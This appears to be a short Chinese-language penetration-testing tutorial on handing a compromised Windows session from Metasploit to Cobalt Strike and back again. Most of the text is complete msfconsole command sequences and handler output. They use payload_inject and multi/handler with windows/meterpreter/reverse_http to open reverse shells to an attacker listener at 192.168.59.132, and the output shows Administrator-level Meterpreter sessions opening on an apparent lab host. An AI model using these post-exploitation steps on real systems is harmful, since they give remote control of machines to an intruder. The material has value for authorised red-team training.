


# 0x00 MSF 转 CS

当我们的已经获得 meterpreter的时候转到CS只需要使用的`payload_inject`模块

```
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/payload_inject
msf exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(windows/local/payload_inject) > set lhost 192.168.59.132
lhost => 192.168.59.132
msf exploit(windows/local/payload_inject) > set lport 5555
lport => 5555
msf exploit(windows/local/payload_inject) > set session 1
session => 1
msf exploit(windows/local/payload_inject) > set disablepayloadhandler true
disablepayloadhandler => true
msf exploit(windows/local/payload_inject) > exploit -j

```

`set disablepayloadhandler true` 用来禁用 payload handler的监听否则有冲突。


然后在CS里面配置监听`set lhost 192.168.59.132` `set lport 5555` 即可




# 0x01  CS 转 MSF 

CS转MSF 只需要用到 `spawn` 功能

>目标右键> spawn




添加一个 Foreign 的监听器 在点choose 来到msf


```
msf > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  ADMIN-C199053CD\Administrator @ ADMIN-C199053CD  192.168.59.132:4444 -> 192.168.59.129:1035 (192.168.59.129)

msf > use exploit/multi/handler 
msf exploit(multi/handler) > set set payload windows/meterpreter/reverse_http
set => payload windows/meterpreter/reverse_http
msf exploit(multi/handler) > set lhost 192.168.59.132
lhost => 192.168.59.132
msf exploit(multi/handler) > set lport 7788
lport => 7788
msf exploit(multi/handler) > exploit 

[*] Started HTTP reverse handler on http://192.168.59.132:7788
[*] http://192.168.59.132:7788 handling request from 192.168.59.129; (UUID: qwqc9zgv) Staging x86 payload (180825 bytes) ...
[*] Meterpreter session 2 opened (192.168.59.132:7788 -> 192.168.59.129:1086) at 2019-04-05 13:39:34 +0800

```


# 0x02  文末

### 本文如有错误，请及时提醒，以免误导他人

